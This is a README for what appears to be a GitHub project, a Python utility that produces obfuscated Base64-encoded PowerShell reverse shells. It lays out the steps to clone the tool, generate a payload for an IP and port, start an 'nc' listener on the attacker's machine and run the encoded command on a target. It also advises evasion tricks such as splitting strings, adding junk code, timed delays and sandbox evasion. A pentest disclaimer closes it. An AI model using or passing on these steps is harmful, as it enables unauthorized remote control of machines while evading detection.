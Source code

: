 # PowerShell Reverse Shell Generator

A Python-based utility for generating obfuscated Base64-encoded PowerShell reverse shells.

## Features
- IP/Port configuration through command-line arguments
- Automatic Base64 encoding with proper UTF-16LE conversion
- Basic anti-analysis patterns
- Error handling integration

## Prerequisites
- Python 3.6+
- PowerShell 5.0+

## Usage

1. Clone the repository:
```bash
git clone https://github.com/Ethixlucifer/powershell-win1.git
cd powershell-win1
```

2. Generate payload:
```bash
python ps1_encoder.py -i 192.168.1.100 -p 2222
```

3. Start listener (on attacker machine):
```bash
nc -nvlp 2222
```

4. Execute generated command on target machine

## Example Output
```powershell
powershell -nop -w 1 -ep bypass -e JABJAFQAPQAnADE...
```

## Customization Options
- Split IP address strings (e.g., `'192.168'+'.1.100'`)
- Add junk code between script blocks
- Modify the PS> prompt pattern
- Implement time-based execution delays

## Important Notes
- Always test payloads in controlled environments
- Use proper network encryption (SSL/TLS)
- Consider adding sandbox evasion techniques
- Maintain strict version control for detection testing

## Legal Disclaimer
This tool is intended for:
- Authorized penetration testing
- Educational purposes
- Security research

Always obtain proper authorization before using this tool against any network or system.
